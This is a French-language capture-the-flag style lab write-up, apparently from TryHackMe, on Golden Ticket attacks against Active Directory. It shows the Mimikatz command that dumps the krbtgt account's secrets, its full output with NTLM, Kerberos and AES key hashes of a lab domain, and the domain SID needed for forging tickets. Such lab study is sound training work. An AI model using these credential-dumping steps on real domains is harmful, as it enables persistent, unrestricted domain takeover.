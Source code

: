 ### Task 5 - Golden Ticket Attacks w/ Mimikatz

#### Qu'est-ce qu'une attaque Golden Ticket ?

Une attaque Golden Ticket exploite le compte Kerberos Ticket Granting Ticket (krbtgt) pour créer des tickets Kerberos valides qui donnent un accès illimité au domaine.

#### Extraction du hash krbtgt

```powershell
mimikatz # lsadump::lsa /inject /name:krbtgt
Domain : CONTROLLER / S-1-5-21-849420856-2351964222-986696166

RID  : 000001f6 (502)
User : krbtgt

 * Primary
    NTLM : 5508500012cc005cf7082a9a89ebdfdf
    LM   :
  Hash NTLM: 5508500012cc005cf7082a9a89ebdfdf
    ntlm- 0: 5508500012cc005cf7082a9a89ebdfdf
    lm  - 0: 372f405db05d3cafd27f8e6a4a097b2c

 * WDigest
    01  49a8de3b6c7ae1ddf36aa868e68cd9ea
    02  7902703149b131c57e5253fd9ea710d0
    03  71288a6388fb28088a434d3705cc6f2a
    [...]

 * Kerberos
    Default Salt : CONTROLLER.LOCALkrbtgt
    Credentials
      des_cbc_md5       : 64ef5d43922f3b5d

 * Kerberos-Newer-Keys
    Default Salt : CONTROLLER.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 8e544cabf340db750cef9f5db7e1a2f97e465dffbd5a2dc64246bda3c75fe53d
      aes128_hmac       (4096) : 7eb35bddd529c0614e5ad9db4c798066
      des_cbc_md5       (4096) : 64ef5d43922f3b5d

 * NTLM-Strong-NTOWF
    Random Value : 666caaaaf30081f30211bd7fa445fec4
```

**Informations critiques extraites :**

![Mimikatz Critical Info](https://assets.tryhackme.com/additional/imgur/Yzq71aI.png)

- **Hash NTLM krbtgt** : `5508500012cc005cf7082a9a89ebdfdf`
- **SID du domaine** : `S-1-5-21-849420856-2351964222-986696166`

---